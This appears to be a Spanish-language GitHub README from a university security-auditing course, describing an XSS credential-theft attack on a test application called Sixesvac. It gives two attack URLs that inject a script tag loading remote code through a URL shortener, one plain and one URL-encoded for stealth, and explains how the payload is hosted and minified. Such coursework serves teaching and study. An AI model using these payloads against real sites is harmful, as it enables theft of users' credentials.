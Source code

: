 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (47 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2F%73horturl%2E%61%74%2FdepAO%22%3E%3C%2F%73%63%72%69%70%74%3E` (120 caracteres en parámetro de consulta; MÁS discreto mediante codificación URL)

## Cómo funciona
Se utiliza XSS para cargar un script subido a GitHub Pages, un servicio gratuito de GitHub que publica recursos estáticos de un repositorio de GitHub. Para acortar el URL se utiliza un acortador de URL gratuito. Además, el script diseñado para ejecutar el ataque está minificado lo máximo posible, sacrificando compatibilidad con Internet Explorer y navegadores más antiguos donde es necesario, para usar sintaxis y funciones más nuevas que redundan en un código más breve.

## Herramientas usadas
https://www.shorturl.at/shortener.php
https://onlinetexttools.com/url-encode-text
